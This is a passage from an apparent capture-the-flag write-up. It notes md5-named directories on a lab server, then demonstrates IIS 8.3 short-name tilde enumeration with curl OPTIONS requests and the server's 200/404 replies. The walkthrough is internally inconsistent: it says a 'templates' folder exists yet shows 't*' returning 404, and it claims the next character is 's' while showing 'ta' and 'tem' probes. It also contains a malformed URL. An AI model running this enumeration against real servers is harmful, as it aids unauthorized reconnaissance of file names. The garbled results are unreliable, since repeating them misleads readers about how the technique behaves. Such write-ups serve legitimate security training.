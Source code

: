 
This gives a pretty clear picture of the directories on the server. One thing
that jumped out is the two directories in `/dev`, both of which look like
md5hashes. Some quick guessing shows that they are actually md5 hashes of the
two creators, `md5(mrb3n) = 304c0c90fbc6520610abbf378e2339d1` and `md5(eks) =
dca66d38fd916317687e1390a420c3fc`.

### IIS Short Names

The other trick needed here is to use a trick to take advantage of Windows
short names, which are referred to as the 8.3 file naming scheme because it
limits each file name to eight characters, a dot, and then a three character
extension. There was a [really interesting
paper](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf)
that looks at how IIS handles 8.3 file names in earlier versions of IIS and
.NET. The trick is to look at how the server responds to 8.3 names with
wildcards, which it seems to process when `~` is in the path.

Different servers may require different HTTP request methods to find the
difference. This server doesn’t show the vulnerability with a GET request, but
_does_ show it with an OPTIONS request. For example, I know that there’s a
folder named `templates` in the root directory from `gobuster`. When I make an
OPTIONS request to `http://10.13.38/11/t*~1*/.aspx`, it returns 404. But when
I try `http://10.13.38/11/c*~1*/.aspx`, it returns 200:

    
    
    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/c*~1*/.aspx'
    HTTP/1.1 200 OK
    Allow: OPTIONS, TRACE, GET, HEAD, POST
    Server: Microsoft-IIS/10.0
    Public: OPTIONS, TRACE, GET, HEAD, POST
    Date: Thu, 04 Jun 2020 11:25:11 GMT
    Content-Length: 0
    
    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/t*~1*/.aspx'
    HTTP/1.1 404 Not Found
    Content-Type: text/html
    Server: Microsoft-IIS/10.0
    Date: Thu, 04 Jun 2020 11:25:17 GMT
    Content-Length: 1245
    

Similarly, I can try each character and see the next character is `s`:

    
    
    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/ta*~1*/.aspx'
    HTTP/1.1 200 OK
    Allow: OPTIONS, TRACE, GET, HEAD, POST
    Server: Microsoft-IIS/10.0
    Public: OPTIONS, TRACE, GET, HEAD, POST
    Date: Thu, 04 Jun 2020 11:27:32 GMT
    Content-Length: 0
    
    root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/tem*~1*/.aspx'
    HTTP/1.1 404 Not Found
    Content-Type: text/html
    Server: Microsoft-IIS/10.0
    Date: Thu, 04 Jun 2020 11:27:36 GMT
    Content-Length: 1245
    